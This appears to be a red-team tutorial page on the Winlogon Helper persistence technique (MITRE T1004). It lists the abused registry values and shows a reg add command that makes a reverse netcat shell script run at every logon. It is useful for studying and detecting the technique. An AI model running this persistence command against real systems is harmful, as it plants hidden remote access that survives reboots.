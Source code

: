 # Windows Logon Helper

> Winlogon.exe is a Windows component responsible for actions at logon/logoff as well as the secure attention sequence \(SAS\) triggered by Ctrl-Alt-Delete.
>
> [https://attack.mitre.org/techniques/T1004/](https://attack.mitre.org/techniques/T1004/)

Commonly abused Winlogon registry keys and value for persistence are:

```text
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify 
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\shell
```

{% hint style="info" %}
HKCU can also be replaced with HKLM for a system wide persistence, if you have admin privileges.
{% endhint %}

## Execution

Let's run through the techqnique abusing the `userinit` subkey.

Let's see what's currently held at the `userinit`:

```text
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit
```

![](../../.gitbook/assets/image%20%2821%29.png)

Let's now add an additional item shell.cmd \(a simple reverse netcat shell\) to the list that we want to be launched when the compromised machine reboots:

```text
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit /d C:\Windows\system32\userinit.exe,C:\tools\shell.cmd /t reg_sz /f
```

![](../../.gitbook/assets/image%20%28432%29.png)

Rebooting the compromised system executes the c:\tools\shell.cmd, which in turn establishes a reverse shell to the attacking system:

![](../../.gitbook/assets/image%20%28345%29.png)

## References

{% embed url="https://attack.mitre.org/techniques/T1004/" %}

